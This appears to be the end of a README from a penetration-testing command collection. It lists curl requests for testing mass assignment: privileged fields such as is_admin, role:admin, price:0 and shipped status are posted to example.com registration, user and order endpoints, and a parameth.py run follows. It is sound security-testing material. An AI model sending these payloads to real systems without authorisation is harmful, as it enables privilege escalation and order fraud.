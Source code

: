 **Objective**: Identify requests that modify objects and identify fields that were never intended to be modified from outside.

### Commands

```bash
# Test for mass assignment in user registration
curl -s -X POST "https://example.com/register" -H "Content-Type: application/json" -d '{"username":"test","password":"test123","is_admin":true}'

# Test for mass assignment in user profile update
curl -s -X PUT "https://example.com/api/users/123" -H "Content-Type: application/json" -d '{"name":"Test User","role":"admin"}'

# Test for mass assignment in different contexts
curl -s -X POST "https://example.com/api/orders" -H "Content-Type: application/json" -d '{"product_id":1,"quantity":1,"price":0,"status":"shipped"}'

# Test for mass assignment with parameter pollution
curl -s -X POST "https://example.com/api/users" -d "username=test&password=test123&is_admin=true"

# Test for mass assignment with array parameters
curl -s -X POST "https://example.com/api/users" -H "Content-Type: application/json" -d '{"username":"test","password":"test123","permissions":["admin","user"]}'

# Test for mass assignment in different HTTP methods
curl -s -X PATCH "https://example.com/api/users/123" -H "Content-Type: application/json" -d '{"role":"admin"}'

# Use specialized tools for mass assignment testing
python3 parameth.py -u "https://example.com/api/users" -m POST
```

## Additional Resources

- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [HackTricks](https://book.hacktricks.xyz/)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [SANS Penetration Testing Resources](https://www.sans.org/blog/pen-test-poster-white-board/)

## Contributing

Feel free to submit pull requests with additional commands, techniques, or improvements to the existing content.

## License

This project is licensed under the MIT License - see the LICENSE file for details.
